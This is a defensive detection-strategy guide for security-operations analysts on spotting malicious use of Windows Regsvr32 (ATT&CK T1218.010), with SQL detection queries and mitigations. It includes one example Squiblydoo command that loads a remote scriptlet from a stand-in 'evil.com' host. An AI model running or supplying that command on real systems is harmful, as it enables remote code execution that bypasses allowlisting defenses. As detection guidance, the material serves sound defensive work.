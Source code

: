 ### Alerting and Detection Strategy (ADS) for Malicious Use of Regsvr32 in Windows Environments

#### Overview

- **ADS ID**: ADS-2023-001
- **Title**: Detecting Malicious Use of Regsvr32 in Windows
- **Date Created**: September 3, 2023
- **Last Modified**: September 3, 2023
- **Version**: 1.0
- **Related ATT&CK Technique**: [T1218.010 - Regsvr32](https://attack.mitre.org/techniques/T1218/010/)
- **Author**: Cybersecurity Team

#### Objective

To provide a comprehensive guide for detecting malicious activities involving the use of `Regsvr32.exe` in Windows environments. This document aims to educate both junior and senior cybersecurity analysts in Security Operations Centers (SOCs) on the intricacies of `Regsvr32.exe` and how it can be abused.

#### Technical Context

##### What is Regsvr32?

`Regsvr32.exe` is a command-line utility in Windows used for registering and unregistering Object Linking and Embedding (OLE) controls, including Dynamic Link Libraries (DLLs). It is commonly located in `C:\\Windows\\System32\\`.

##### Legitimate Usage

In a legitimate context, `Regsvr32` is often used by administrators and software installers to register DLLs or ActiveX controls in the Windows Registry. The typical syntax for legitimate usage is:

\`\`\`bash
Regsvr32.exe /s /i somefile.dll
\`\`\`

##### Malicious Usage

###### Squiblydoo Attack

One of the most notorious techniques involving `Regsvr32` is the Squiblydoo attack. It allows an attacker to bypass application whitelisting defenses by loading a COM scriptlet from a remote server. The syntax is:

\`\`\`bash
Regsvr32.exe /u /n /s /i:http://evil.com/malicious.sct scrobj.dll
\`\`\`

###### COM Object Hijacking

`Regsvr32` can also be used to register a malicious COM Object for persistence via Component Object Model Hijacking.

###### Examples

- APT32 used `Regsvr32` to execute a COM scriptlet that dynamically downloaded a backdoor.
- Cobalt Group used `Regsvr32.exe` to execute scripts.

#### Data Sources

- Windows Event Logs
- Network Traffic Logs
- Endpoint Detection and Response (EDR) Logs

#### Detection Strategy

##### Indicators of Compromise (IoCs)

- Unusual network connections initiated by `Regsvr32.exe`.
- Registration or unregistration of suspicious or unknown DLLs.

##### Analytics

**Generic Regsvr32 Detection**

\`\`\`sql
SELECT * FROM process_events WHERE parent_process_name = 'regsvr32.exe' AND process_name != 'regsvr32.exe';
\`\`\`

**Squiblydoo Detection**

\`\`\`sql
SELECT * FROM process_events WHERE process_name = 'regsvr32.exe' AND command_line LIKE '%scrobj.dll%';
\`\`\`

#### Mitigations

- Use application control tools like Windows Defender Application Control to block unauthorized usage of `Regsvr32`.
- Employ network segmentation and firewall rules to restrict `Regsvr32` from making outbound connections.

#### References

- [MITRE ATT&CK: Regsvr32](https://attack.mitre.org/techniques/T1218/010/)
- [Red Canary: Technique T1117](https://redcanary.com/blog/3-technique-regsvr32-t1117/)
- [LOLBAS Project: Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)
- [iRed Team: T1117 Regsvr32 aka Squiblydoo](https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo)

---

This document is intended to be a living resource. As new techniques and tactics are developed by adversaries, this ADS will be updated to reflect those changes.
